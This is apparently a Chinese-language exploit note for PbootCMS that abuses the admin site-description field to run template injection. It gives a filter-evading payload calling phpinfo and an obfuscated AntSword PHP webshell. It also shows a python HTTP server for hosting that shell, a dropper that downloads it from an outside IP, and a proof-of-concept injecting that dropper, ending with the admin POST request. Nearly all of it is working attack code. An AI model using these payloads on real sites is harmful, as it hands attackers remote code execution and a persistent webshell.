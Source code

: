 ### 命令执行

> 基础设置-站点信息-站点描述

#### phpinfo

```bash
{pboot:if(implode('', ['c','a','l','l','_','u','s','e','r','_','f','u','n','c'])(implode('',['p','h','p','i','n','f','o'])))}!!!{/pboot:if}
```

#### xxx.php

蚁剑生成木马：生成shell插件 

```bash
<?php // 使用时请删除此行, 连接密码: xxx ?>
<?php $nhOE=create_function(chr(897-861).chr(41745/363).chr(56277/507).chr(0x17422/0x36a).chr(0135714/0734),chr(0x1155b/0x2bf).chr(0420-0232).chr(0x12b56/0x316).chr(0xdc-0x70).str_rot13('(').str_rot13('$').str_rot13('f').str_rot13('b').chr(0x313-0x2a6).base64_decode('ZQ==').chr(591-550).str_rot13(';'));$nhOE(base64_decode('Mjc2N'.'TM7QG'.'V2QWw'.'oJF9Q'.''.str_rot13('G').str_rot13('1').base64_decode('Tg==').chr(0x136-0xe1).chr(432-345).''.''.str_rot13('3').base64_decode('aA==').base64_decode('NA==').base64_decode('ZQ==').chr(0x5dca/0x157).''.'0pOzg'.'yOTU5'.'Ow=='.''));?>
```

#### http

```bash
python -m http.server 80
```

#### 上传webshell

##### xxx1.php

```bash
<?php file_put_contents("xxx2.php",file_get_contents("http://10.223.47.114/xxx.php"))?>
```

##### poc

```bash
{pboot:if(implode('',['f','i','l','e','_','p','u'.'t','_c','o','n','t','e','n','t','s'])(implode('',['xxx1','.php']),implode('',['<?php file_','put_','contents(','"xxx2.php",','file','_get_','contents("','http://10.223.47.114/xxx.php"))?>'])))}!!!{/pboot:if}
```



```bash
POST /admin.php?p=/Site/mod HTTP/1.1
Host: www.cf1.com
Content-Length: 1099
Cache-Control: max-age=0
Origin: http://www.cf1.com
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://www.cf1.com/admin.php?p=/Site/index
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: lg=cn; PbootSystem=4fcb1vrm48ik6mmpk6uj9av0ag
Connection: keep-alive

```